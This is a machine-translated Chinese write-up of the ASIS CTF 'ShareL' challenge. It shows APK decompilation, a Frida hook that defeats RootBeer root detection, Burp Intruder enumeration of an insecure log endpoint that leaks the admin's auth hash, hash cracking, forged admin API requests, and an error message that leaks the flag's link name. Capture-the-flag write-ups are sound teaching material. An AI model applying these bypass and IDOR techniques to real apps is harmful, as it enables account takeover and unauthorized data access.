


# ASIS·CTF—沙雷尔漫游

> 原文：<https://infosecwriteups.com/asis-ctf-sharel-walkthrough-da32f3533b40?source=collection_archive---------2----------------------->

您好，本演练的读者应该知道这些主题:

1.  Android 应用程序漏洞评估
2.  和弗丽达勾搭
3.  Web 应用程序漏洞评估
4.  起毛

参与者被授予 APK 奖。打开 APK 导致以下 HTTP 请求:

```
GET /api/users/register/170/6C7AF7CC9FE261FFCDA1ECBF0E5B988E79B9F7F2 HTTP/1.1
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

并向用户显示`the app cannot register`消息。于是出现了一个问题，我挖了 APK 来找出问题:

```
jadx --deobf sharel.apk
```

你可以在这里找到 AP 和反编译文件([我很快会添加 Github repo](https://github.com/Voorivex))。



[SplashScreen.java](https://github.com/Voorivex/ctf/blob/master/asis_sharel_files/shareL/sources/com/asisctf/ShareL/SplashScreen.java)**消息人士透露，如果设备是根设备，注册过程会有所不同。**

```
if (**new RootBeer(getApplicationContext()).isRooted()**) {
    String sha1Hash = CryptoHandler.sha1Hash(string);
    this.random = new Random().nextInt(859) + 1;
    StringBuilder sb = new StringBuilder();
    sb.append(this.random);
    sb.append(str);
    **call = aPIInterFace.regNewDev(sb.toString(), sha1Hash)**;
} else {
    String md5 = CryptoHandler.md5(string);
    this.random = new Random().nextInt(900000000) + 100000000;
    StringBuilder sb2 = new StringBuilder();
    sb2.append(this.random);
    sb2.append(str);
    **call = aPIInterFace.regNewDev(md5, sb2.toString())**;
}
```

**[APIInterFace.java](https://github.com/Voorivex/ctf/blob/master/asis_sharel_files/shareL/sources/com/asisctf/ShareL/APIInterFace.java)类揭示了几乎所有的端点 URL:**

```
public interface APIInterFace {
    [@GET](http://twitter.com/GET)("api/link/mylinks")
    [@Headers](http://twitter.com/Headers)({"Content-Type:application/json"})
    Call<MyLinks> MyLinks([@Header](http://twitter.com/Header)("auth-token") String str, [@Header](http://twitter.com/Header)("device-id") String str2);[@GET](http://twitter.com/GET)("api/link/preview/{user_id}/{rnd_num}/{link_name}")
    [@Headers](http://twitter.com/Headers)({"Content-Type:application/json"})
    Call<PreviewLink> PreviewLink([@Header](http://twitter.com/Header)("auth-token") String str, [@Header](http://twitter.com/Header)("device-id") String str2, [@Path](http://twitter.com/Path)("user_id") int i, [@Path](http://twitter.com/Path)("rnd_num") int i2, [@Path](http://twitter.com/Path)("link_name") String str3);[@GET](http://twitter.com/GET)("api/user/{user_id}/public_links")
    [@Headers](http://twitter.com/Headers)({"Content-Type:application/json"})
    Call<UsrPLink> UserPubLink([@Header](http://twitter.com/Header)("auth-token") String str, [@Header](http://twitter.com/Header)("device-id") String str2, [@Path](http://twitter.com/Path)("user_id") int i);[@GET](http://twitter.com/GET)("api/users/{user_id}")
    [@Headers](http://twitter.com/Headers)({"Content-Type:application/json"})
    Call<UserProfile> getUserProfile([@Header](http://twitter.com/Header)("auth-token") String str, [@Header](http://twitter.com/Header)("device-id") String str2, [@Path](http://twitter.com/Path)("user_id") int i);[**@GET**](http://twitter.com/GET)**("api/users/register/{md}/{rnd}")
    Call<NewDevice> regNewDev(**[**@Path**](http://twitter.com/Path)**("md") String str,** [**@Path**](http://twitter.com/Path)**("rnd") String str2);**[@POST](http://twitter.com/POST)("api/links/share")
    [@Headers](http://twitter.com/Headers)({"Content-Type:application/json"})
    Call<ShareLink> shareLink([@Header](http://twitter.com/Header)("auth-token") String str, [@Header](http://twitter.com/Header)("device-id") String str2, [@Body](http://twitter.com/Body) sShareLink ssharelink);[@POST](http://twitter.com/POST)("api/links/share/private")
    [@Headers](http://twitter.com/Headers)({"Content-Type:application/json"})
    Call<SharePLinkUser> sharePLink([@Header](http://twitter.com/Header)("auth-token") String str, [@Header](http://twitter.com/Header)("device-id") String str2, [@Body](http://twitter.com/Body) sSharePLink sshareplink);[@GET](http://twitter.com/GET)("api/users/top")
    [@Headers](http://twitter.com/Headers)({"Content-Type:application/json"})
    Call<Top10Users> top10user([@Header](http://twitter.com/Header)("auth-token") String str, [@Header](http://twitter.com/Header)("device-id") String str2);[@GET](http://twitter.com/GET)("api/users/me")
    [@Headers](http://twitter.com/Headers)({"Content-Type:application/json"})
    Call<Whoami> whoami([@Header](http://twitter.com/Header)("auth-token") String str, [@Header](http://twitter.com/Header)("device-id") String str2);
}
```

**`RegNewDev`就在那里。我看了看检测根设备的[RootBeer.java](https://github.com/Voorivex/ctf/blob/master/asis_sharel_files/shareL/sources/com/scottyab/rootbeer/RootBeer.java):**

```
public class RootBeer {
    private boolean loggingEnabled = true;
    private final Context mContext;public RootBeer(Context context) {
        this.mContext = context;
    }public boolean **isRooted**() {
        return detectRootManagementApps() || detectPotentiallyDangerousApps() || checkForBinary("su") || checkForBinary("busybox") || checkForDangerousProps() || checkForRWPaths() || detectTestKeys() || checkSuExists() || checkForRootNative() || checkForMagiskBinary();
    }public boolean **isRootedWithoutBusyBoxCheck**() {
        return detectRootManagementApps() || detectPotentiallyDangerousApps() || checkForBinary("su") || checkForDangerousProps() || checkForRWPaths() || detectTestKeys() || checkSuExists() || checkForRootNative() || checkForMagiskBinary();
    }
...
}
```

**我设法通过一个简单的钩子来改变这个部分，我运行 Frida 服务器:**

```
root@vbox86p:/data/local/tmp # ./frida-server-12.7.22-android-x86
```

**连接器:**

```
frida-ps -U | grep asis2975  com.asisctf.ShareL
```

**钩子脚本:**

```
Java.perform(function z() {
    console.log("Started");var my_class = Java.use("com.scottyab.rootbeer.RootBeer");
    my_class.isRooted.implementation = function () {
        console.log("inside is rooted")
        return false
    }var my_class = Java.use("com.scottyab.rootbeer.RootBeer");
    my_class.isRootedWithoutBusyBoxCheck.implementation = function () {
        console.log("inside is rooted")
        return false
    }});
```

**附加到流程:**

```
frida -U -l script.js com.asisctf.ShareL
     ____
    / _  |   Frida 12.7.22 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at [https://www.frida.re/docs/home/](https://www.frida.re/docs/home/)
Attaching...                                                            
Started
[Genymotion Samsung Galaxy S6::com.asisctf.ShareL]->
```

**注册请求:**

```
GET /api/users/register/c515834365310176f8117a18bb5ad994/280454512 HTTP/1.1
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**注册请求的分析:**

```
/api/users/register/md5("device_id")/random_number
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 08:34:46 GMT
Content-Type: application/json
Content-Length: 81
Connection: close{"code":200,"data":{"auth_hash":"4f9dd56abac816f917c720a7c46d4044","user_id":6}}
```

**应用程序:**

****

**Android 用户界面应用程序的活动:**

1.  **我是谁**
2.  **共享链接(公共和私有)**
3.  **向用户共享私人链接**
4.  **顶级用户**
5.  **我的链接**

**参观 **WHOAMI** :**

```
GET /api/users/me HTTP/1.1
**auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994**
Content-Type: application/json
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 06:00:44 GMT
Content-Type: application/json
Content-Length: 70
Connection: close{"code":200,"data":{"links":0,"user_id":6,"user_type":"Normal user"}}
```

**每个请求都有两个头，`auth-token`和`device-id.`我用不同的`device_id`和 **IP 地址**重新注册了同一个`random_number`，我得到了同一个`auth_hash`，我断定`auth_hash`是由用户输入的。我把它给了 cmd5.org，价值是 280454512。所以`auth_hash`是由 **md5(random_number)** 构建的。**

**到目前为止的要点:**

1.  **auth_token: `user_id.auth_hash`或`user_id.md5(random_number)`**
2.  **device_id:一个唯一的散列**
3.  **我是一个普通用户**

**共享链接:**

```
POST /api/links/share HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 61
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"link":"[http://test.com](http://test.com)","link_name":"test_234","private":1}
```

**我的链接:**

```
GET /api/link/mylinks HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 08:39:07 GMT
Content-Type: application/json
Content-Length: 194
Connection: close{"code":200,"data":[{"link":"[http://test.com](http://test.com)","link_id":7,"link_name":"test_686","private":0,"user_id":6},{"link":"[http://test.com](http://test.com)","link_id":8,"link_name":"test_234","private":1,"user_id":6}]}
```

**向用户共享私人链接:**

```
POST /api/links/share/private HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 80
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"link_name":"test_234","random_number":280454512,"share_user_id":1,"user_id":6}
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 08:43:01 GMT
Content-Type: application/json
Content-Length: 105
Connection: close{"code":200,"data":{"msg":"the user_id(1) can view the link by /api/link/preview/6/280454512/test_234"}}
```

**要点:**

1.  **要共享链接，应该知道`random_number`和`link_name`**
2.  **共享链接由`user_id`、`random_number`和`link_name`组成**

**一个快速测试正在改变共享专用链接请求中的`share_user_id`和`user_id`，它没有成功，服务器说:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 08:43:52 GMT
Content-Type: application/json
Content-Length: 69
Connection: close{"code":400,"data":{"err":"user_id manipulation has been detected"}}
```

**在这个时候，我去了 Android 的反编译源代码，寻找一个隐藏的活动或类似的代码。我发现[AllUsersLogActivity.java 的](https://github.com/Voorivex/ctf/blob/master/asis_sharel_files/shareL/sources/com/asisctf/ShareL/AllUsersLogActivity.java)文件包含了两个端点:**

```
/logs/user_id/
/logs/all/log_id/
```

**我试过了:**

```
GET /logs/user_id/1 HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 2
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**获得:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 08:52:08 GMT
Content-Type: application/json
Content-Length: 48
Connection: close{"code":403,"data":{"err":"permission denied"}}
```

**不过，我把我的`user_id`:**

```
GET /logs/user_id/6 HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 2
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**获得:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 08:52:40 GMT
Content-Type: application/json
Content-Length: 159
Connection: close{"code":200,"data":[{"log_details":"user_id(6) created by auth_hash(4f9dd56abac816f917c720a7c46d4044)",**"log_id":37**,"log_name":"application log","user_id":6}]}
```

**之后我发出了请求:**

```
GET /logs/all/log_id/37 HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 2
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**返回相同的结果。所以我对 Burp Suite 的入侵者进行了 1 到 37 的尝试，id`23`和`28`很有趣:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Sat, 16 Nov 2019 11:33:45 GMT
Content-Type: application/json
Content-Length: 166
Connection: close{"code":200,"data":{"logs":{"log_details":"**user_id(1) created by auth_hash(7974d396f5cfcdbe3433037c11e819ca)**","log_id":23,"log_name":"application log","user_id":1}}}--------------------------------------------------------------------HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Thu, 14 Nov 2019 11:47:19 GMT
Content-Type: application/json
Content-Length: 149
Connection: close{"code":200,"data":{"logs":{"log_details":"**user_id(1) shared a private link named test**","log_id":28,"log_name":"application log","user_id":1}}}
```

**结论:**

1.  **我有了`auth_token`(1.7974d 396 F5 cfcdbe 3433037 c11e 819 ca**)****
2.  **我有管理员的`random_id`(来自 [cmd5](https://www.cmd5.org/) 的 493291123)**
3.  **管理员给了我一个`link_name`**

**我开始通过管理员`auth_token`调用`My Links`端点:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 10:36:35 GMT
Content-Type: application/json
Content-Length: 98
Connection: close{"code":401,"data":{"msg":"Device-Id(c515834365310176f8117a18bb5ad994) mismatch for user_id(1)"}}
```

**我找了 2 个小时才找到管理员的`device_id`，没找到。但是，我可以调用以下端点:**

1.  **共享链接**
2.  **与用户共享私人链接**

**我有管理员的`random_number`、`link_name`和`auth_token`，所以我把`test`分享给自己:**

```
POST /api/links/share/private HTTP/1.1
auth-token: 1.7974d396f5cfcdbe3433037c11e819ca
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 77
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"link_name":"test","random_number":493291123,"share_user_id": 6,"user_id":1}
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 11:03:05 GMT
Content-Type: application/json
Content-Length: 101
Connection: close{"code":200,"data":{"msg":"the user_id(6) can view the link by /api/link/preview/1/493291123/test"}}
```

**我通过我的`auth_token`看到了链接:**

```
GET /api/link/preview/1/493291123/test HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 0
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 11:05:50 GMT
Content-Type: application/json
Content-Length: 66
Connection: close{"code":200,"data":{"link":"[https://ShareL.tld/test_admin_link](https://ShareL.tld/test_admin_link)"}}
```

**没有发现任何有用的东西:**

```
{"code":200,"data":{"test":"keep going :)"}}
```

**管理员有 5 个链接，其中之一是旗帜，我有除了旗帜`link_name`的一切。我进行了许多测试，最终，我发现如果我共享一个存在于数据库中的`link_name`，端点会泄露链接名称:**

```
POST /api/links/share HTTP/1.1
auth-token: 1.7974d396f5cfcdbe3433037c11e819ca
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 46
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"link":"test","link_name":"test","private":1}
```

**回应是:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 11:08:49 GMT
Content-Type: application/json
Content-Length: 134
Connection: close{"code":400,"data":{"err":"you cannot pick the link name which has already exists ['test', 'google', '**thefl4g_Not3**', 'a', 'local']"}}
```

**我分享了这面旗，然后读了它:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 11:10:11 GMT
Content-Type: application/json
Content-Length: 61
Connection: close{"code":200,"data":{"link":"[https://ShareL.tld/fL/r34d_me](https://ShareL.tld/fL/r34d_me)"}}
```

**然后:**

```
GET /fL/r34d_me HTTP/1.1
auth-token: 6.4f9dd56abac816f917c720a7c46d4044
device-id: c515834365310176f8117a18bb5ad994
Content-Type: application/json
Content-Length: 0
Host: 66.172.33.148:5001
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0
```

**旗帜:**

```
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Mon, 18 Nov 2019 11:10:28 GMT
Content-Type: application/json
Content-Length: 70
Connection: close{"code":200,"data":{"flag":"ASIS{34f9266d60f7eb45a8f29796e44853eb}"}}
```

***关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。***

**[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)**